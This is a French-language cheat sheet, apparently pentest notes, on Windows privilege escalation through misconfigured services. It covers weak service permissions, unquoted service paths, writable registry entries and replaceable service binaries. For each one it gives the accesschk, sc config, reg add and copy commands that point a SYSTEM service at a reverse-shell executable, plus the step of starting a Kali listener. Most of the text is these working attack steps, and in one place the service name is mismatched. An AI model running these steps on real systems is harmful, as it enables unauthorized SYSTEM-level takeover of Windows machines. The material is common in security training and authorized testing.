 # Exploits de service

## Autorisations de service non sécurisées
Utilisez `accesschk.exe` pour vérifier les permissions d'un compte sur un service:
```sh
accesschk.exe /accepteula -uwcqv {user_name} {service_name}
# if SERVICE_CHANGE_CONFIG is enable
```

Interrogez un service et et notez qu'il s'exécute avec les privilèges SYSTEM (SERVICE_START_NAME)
```sh
sc qc {service_name}
# if 'LocalSystem' then is a SYSTEM privilege
```

Modifiez la configuration d'un service et définissez le BINARY_PATH_NAME (binpath) sur l'exécutable `rshell.exe`
```sh
sc config {service_name} binpath="\"C:\temp\rshell.exe\""
```

Démarrez un écouteur sur Kali, puis démarrez le service pour générer un shell inversé s'exécutant avec les privilèges
```sh
net start {service_name}
````

## Chemin de service non cité
Apres avoir interrogez le service   et voir ses privilèges (SERVICE_START_NAME), 
Notez que le BINARY_PATH_NAME n'est pas entre guillemets et contient des espaces.
À l'aide de `accesschk.exe`, notez que le groupe BUILTIN\Users est autorisé à `écrire` dans le répertoire.
```sh
# folder = C:\Program Files\Unquoted Path Service\
accesschk.exe /accepteula -uwdq "{folder}"
# check: RW BUILTIN\Users
```

Copiez l'exécutable rshell.exe dans ce répertoire et renommez-le en `folder_name.exe`
Démarrez un écouteur sur Kali, puis démarrez le service pour générer un shell inversé s'exécutant avec les privilèges
```sh
net start {service_name}
````

## Autorisations de registre faibles
Apres avoir interrogez le service   et voir ses privilèges (SERVICE_START_NAME), 
En utilisant `accesschk.exe`, notez que l'entrée de registre pour le service `regsvc` est accessible en écriture par le groupe "NT AUTHORITY\INTERACTIVE" (essentiellement tous les utilisateurs connectés
```sh
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
# check: RW NT AUTHORITY\INTERACTIVE
```

Remplacez la clé de registre ImagePath pour pointer vers l'exécutable rshell.exe
```sh
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\temp\rshell.exe /f
```

Démarrez un écouteur sur Kali, puis démarrez le service pour générer un shell inversé s'exécutant avec les privilèges
```sh
net start regsvc
```

## Exécutables de service non sécurisés
Apres avoir interrogez le service   et voir ses privilèges (SERVICE_START_NAME),
En utilisant `accesschk.exe`, notez que le fichier binaire du service (BINARY_PATH_NAME) est accessible en écriture par tout le monde
```sh
# path = C:\Program Files\File Permissions Service\filepermservice.exe
accesschk.exe /accepteula -quvw "{path}"
# check: RW BUILTIN\Users 
# 			FILE_ALL_ACCESS
```

Copiez l'exécutable reverse.exe que vous avez créé et remplacez le par celui-ci:
```sh
copy C:\temp\rshell.exe "{path}" /Y
```

Démarrez un écouteur sur Kali, puis démarrez le service pour générer un shell inversé s'exécutant avec les privilèges
```sh
net start regsvc
```